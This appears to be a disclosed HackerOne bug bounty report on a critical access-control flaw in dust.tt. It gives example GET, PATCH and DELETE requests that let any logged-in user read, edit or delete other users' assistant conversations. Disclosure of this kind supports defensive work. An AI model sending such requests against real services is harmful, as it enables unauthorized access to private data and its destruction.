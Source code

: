 # Privilege Escalation leads to Unauthorized Access to Private Conversations By any Regular user  [Read , Edit and Delete]

## Report Details
- **Report ID**: 3103849
- **URL**: https://hackerone.com/reports/3103849
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2025-04-22T09:02:42.376Z
- **Disclosed**: 2025-04-29T11:01:20.804Z

## Reporter
- **Username**: 0xsom3a
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: dust

## Vulnerability Information
# Summary:
A normal authenticated user on dust.tt can escalate their privileges by accessing, modifying, and deleting any chat threads belonging to other users — including administrators — through a vulnerable API endpoint without having the appropriate permissions.

#Vulnerability Details:

## Reading Other Users’ Conversations:

`GET /api/w/<Workspace-id>/assistant/conversations/<victim-conversation-id>`

###Example:

```http
GET /api/w/mRHt1cXVmK/assistant/conversations/<ADMIN-conversation-id> HTTP/2
Host: dust.tt
Cookie: <User-session_token_or_cookies>
```
###Response:

```json
{
  "conversation": {
    "id": [conversation_numeric_id], 
    "created": [timestamp_in_milliseconds], 
    "sId": "[conversation_string_id]", 
    "owner": {
      "id": [user_numeric_id], 
      "sId": "[user_string_id]", 
      "name": "[username]", 
      "role": "[user_role]", 
      "segmentation": null,
      "ssoEnforced": false, 
      "whiteListedProviders": null, 
      "defaultEmbeddingProvider": null, 
      "metadata": {
        "isBusiness": false
      }
    },
    "title": "[conversation_title]", 
    "visibility": "[visibility_status]", 
    "requestedGroupIds": []
  }
}
```

---

## Deleting Other Users’ Conversations:

- By sending a DELETE request to the same endpoint, the attacker can delete any conversation:

```http
DELETE /api/w/mRHt1cXVmK/assistant/conversations/<ADMIN-conversation-id> HTTP/2
Host: dust.tt
Cookie: <User-session_token_or_cookies>
```
- No additional verification is performed server-side to confirm ownership of the conversation.

- The request succeeds and the conversation is permanently deleted from the target workspace.

---

## Editing Other Users’ Conversations:

Similarly, an attacker can update the content or metadata of a conversation by sending a PATCH request:


###Example:

```http
PATCH /api/w/[Workspace ID]/assistant/conversations/[Conversation ID]
Content-Type: application/json
Cookie: <User-session_token_or_cookies>

{
  "title": "Updated by Attacker",
   "visibility":"unlisted"
}
```
###Response:

```json
{
  "conversation": {
    "id": [conversation_numeric_id],
    "created": [timestamp_in_milliseconds],
    "sId": "[conversation_string_id]",
    "owner": {
      "id": [owner_numeric_id],
      "sId": "[owner_string_id]",
      "name": "[owner_username]",
      "role": "[owner_role]",
      "segmentation": null,
      "ssoEnforced": false,
      "whiteListedProviders": null,
      "defaultEmbeddingProvider": null,
      "metadata": {
        "isBusiness": false
      }
    },
    "title": "[conversation_title]",
    "visibility": "[visibility_status]",
    "content": [
      [
        {
          "id": [message_id],
          "sId": "[message_string_id]",
          "type": "[message_type]",
          "visibility": "[message_visibility]",
          "version": 0,
          "created": [message_timestamp],
          "user": {
            "sId": "[user_string_id]",
            "id": [user_numeric_id],
            "createdAt": [user_created_timestamp],
            "provider": "[auth_provider]",
            "username": "[user_username]",
            "email": "[user_email_address]",
            "firstName": "[user_first_name]",
            "lastName": "[user_last_name]",
            "fullName": "[user_full_name]",
            "image": "[user_profile_image_url]"
          },
          "mentions": [],
          "content": "[message_content]",
          "context": {
            "username": "[user_username]",
            "timezone": "[user_timezone]",
            "fullName": "[user_full_name]",
            "email": "[user_email_address]",
            "profilePictureUrl": "[user_profile_image_url]",
            "origin": "[message_origin]"
          }
        }
      ]
    ],
    "requestedGroupIds": []
  }
}
```
---

#POC VIDEO:

█████████

---

## Impact

This vulnerability allows a normal user to:

- **Read private conversations** of any user, including admins.
- **Modify other users' chat threads**.
- **Delete chat threads** of other users without their consent.

This issue **severely compromises** the **confidentiality**, **integrity**, and **availability** of user data within the application, making it a critical security concern that needs to be addressed immediately.

## Attachments
No attachments
